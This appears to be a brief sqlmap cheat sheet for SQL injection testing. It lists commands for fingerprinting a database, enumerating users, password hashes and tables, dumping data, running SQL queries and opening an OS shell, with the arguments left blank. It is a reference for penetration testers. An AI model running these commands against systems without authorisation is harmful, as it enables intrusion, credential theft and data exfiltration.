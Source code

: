Test URL and POST data and return database banner (if possible)
===============================================================

./sqlmap.py –url=“” –data=“” –banner

Parse request data and test | request data can be obtained with burp
====================================================================

./sqlmap.py -r

Fingerprint | much more information than banner
===============================================

./sqlmap.py -r –fingerprint

Get database username, name, and hostname
=========================================

./sqlmap.py -r –current-user –current-db –hostname

Check if user is a database admin
=================================

./sqlmap.py -r –is-dba

Get database users and password hashes
======================================

./sqlmap.py -r –users –passwords

Enumerate databases
===================

./sqlmap.py -r –dbs

List tables for one database
============================

./sqlmap.py -r -D –tables

Other database commands
=======================

./sqlmap.py -r -D –columns –schema –count

Enumeration flags
=================

./sqlmap.py -r -D -T -C -U

Extract data
============

./sqlmap.py -r -D -T -C –dump

Execute SQL Query
=================

./sqlmap.py -r –sql-query=“”

Append/Prepend SQL Queries
==========================

./sqlmap.py -r –prefix=“” –suffix=“”

Get backdoor access to sql server | can give shell access
=========================================================

./sqlmap.py -r –os-shell
